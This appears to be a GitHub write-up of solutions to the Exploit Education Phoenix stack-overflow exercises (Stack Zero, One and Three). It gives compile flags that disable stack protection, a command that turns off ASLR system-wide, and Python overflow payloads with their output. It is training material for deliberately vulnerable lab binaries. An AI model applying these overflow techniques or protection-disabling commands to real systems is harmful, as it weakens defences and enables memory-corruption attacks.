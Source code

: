 # Exploit Education Phoenix


# Stack Zero
## Stack-zero.c x32
### Compile and disable ASLR
```
gcc -m32 -fno-stack-protector -z execstack -o stack-zero-32 stack-zero.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c "print('A' * 65)" | ./stack-zero-32
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# python -c "print('A' * 65)" | ./stack-zero-32 
Welcome to stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!

```
## Stack-zero.c x64
### Compile and disable ASLR
```
gcc -fno-stack-protector -z execstack -o stack-zero stack-zero.c
```
### Solution
```
python -c "print('A' * 65)" | ./stack-zero 
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# python -c "print('A' * 65)" | ./stack-zero 
Welcome to stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```




# Stack One
## Stack-one.c x32
### Compile and disable ASLR
```
gcc -m32 -fno-stack-protector -z execstack -o stack-one-x32 stack-one.c
```
### Solution
```
./stack-one-x32 `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-one-x32 `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
Welcome to Stack one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

## Stack-one.c x64
### Compile and disable ASLR
```
gcc -fno-stack-protector -z execstack -o stack-one stack-one.c
```
### Solution
```
./stack-one `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
```
### Result
```
root@jay:/opt/Exploit-Education-Phoenix# ./stack-one `python -c "print('A'*64+'\x62\x59\x6c\x49')"`
Welcome to Stack one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```





# Stack Three
## x32
### Compile and disable ASLR
```
gcc -m32 -fno-stack-protector -z execstack -o stack-three-32 stack-three.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c 'print "A"*64 + "\x56\x55\x55\xfd"[::-1]' | ./stack-three-32
```

## x64
### Compile and disable ASLR
```
gcc -fno-stack-protector -z execstack -o stack-three stack-three.c
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Solution
```
python -c 'print "A"*64 + "\x55\x55\x55\x55\x47\xaa"[::-1]' | ./stack-three
```
